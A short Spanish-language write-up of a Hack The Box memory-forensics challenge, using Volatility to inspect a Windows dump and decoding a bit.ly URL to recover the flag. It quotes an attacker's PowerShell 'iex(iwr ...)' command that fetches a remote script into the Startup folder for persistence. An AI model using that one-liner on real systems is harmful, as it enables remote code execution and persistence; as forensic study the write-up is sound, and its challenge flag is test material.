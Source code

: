 # Export
*We spotted a suspicious connection to one of our servers, and immediately took a memory dump. Can you figure out what the attackers were up to?*

Como tenemos un memory dump lo primero sera determinar el perfil con **imageinfo**
```
INFO    : volatility.debug    : Determining profile based on KDBG search...
          Suggested Profile(s) : Win7SP1x64, Win7SP0x64, Win2008R2SP0x64, Win2008R2SP1x64_23418, Win2008R2SP1x64, Win7SP1x64_23418
                     AS Layer1 : WindowsAMD64PagedMemory (Kernel AS)
                     AS Layer2 : FileAddressSpace (/home/pj/Current/HTB/WIN-LQS146OE2S1-20201027-142607.raw)
                      PAE type : No PAE
                           DTB : 0x187000L
                          KDBG : 0xf80001a540a0L
          Number of Processors : 1
     Image Type (Service Pack) : 1
                KPCR for CPU 0 : 0xfffff80001a55d00L
             KUSER_SHARED_DATA : 0xfffff78000000000L
           Image date and time : 2020-10-27 14:26:09 UTC+0000
     Image local date and time : 2020-10-27 19:56:09 +0530
```
Veamos la actividad en consola con el plugin **consoles**
```
echo iex(iwr "http%3A%2F%2Fbit.ly%2FSFRCe1cxTmQwd3NfZjByM05zMUNTXzNIP30%3D.ps1") > C:\Users\user\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\3usy12fv.ps1
```
Esa orden es la unica que destaca y dado que se ha descargado un fichero externo ps1, al hacer el url decode tenemos lo siguiente:
```
http://bit.ly/SFRCe1cxTmQwd3NfZjByM05zMUNTXzNIP30=.ps1
```
Lo cual es raro, veamos que significa el nombre del archivo si aplicamos base64 -d a la parte que parece codificada
```
echo 'SFRCe1cxTmQwd3NfZjByM05zMUNTXzNIP30=' | base64 -d
HTB{W1Nd0ws_f0r3Ns1CS_3H?}
```
Flag **HTB{W1Nd0ws_f0r3Ns1CS_3H?}**
